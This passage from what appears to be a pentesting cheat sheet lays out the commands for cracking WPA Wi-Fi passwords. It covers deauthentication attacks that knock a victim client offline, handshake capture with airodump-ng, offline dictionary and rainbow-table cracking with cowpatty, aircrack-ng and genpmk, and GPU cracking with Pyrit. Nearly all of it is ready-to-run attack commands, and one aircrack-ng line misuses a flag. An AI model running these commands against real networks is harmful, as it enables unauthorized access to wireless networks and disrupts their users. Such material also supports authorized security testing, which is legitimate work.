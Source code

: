 ```text
aireplay-ng -0 1 -a $AP -c $VIC mon0
```

Run Cowpatty against the pcap to crack it \(also with aircrack-ng\):

```text
cowpatty -r <pcap> -f <path to wordlist> -2 -s <AP_SSID>

or

aircrack-ng -w <path to wordlist> -w <capture file>
```

Create WPA Hashes:

```text
genpmk -f <path to wordlist> -d <hash list to create> -s <AP_SSID>
```

Run Cowpatty using hashes - rainbow table method:

```text
cowpatty -r <pcap> -d <hash list> -2 -s <AP_SSID>
```

## Cracking WPA with Pyrit:

Monitor Mode:

```text
airmon-ng start wlan0 <AP Channel Number>
```

Airodump Capture of Traffic:

```text
airodump-ng -c <AP Channel> --bssid <AP MAC> -w <filename> mon0
```

Deauth Attack:

```text
aireplay-ng -0 1 -a $AP -c $VIC mon0
```

Run Pyrit in Dictionary Mode against pcap:

```text
pyrit -r <capture file> -i <wordlist> -b <AP_MAC> attack_passthrough
```

GPU Cracking:

```text
pyrit -i <wordlist> import_passwords
pyrit -e <AP_ESSID> create_essid
pyrit batch
pyrit -r <capture-file> attack_db
```

## Other Aircrack Tools:
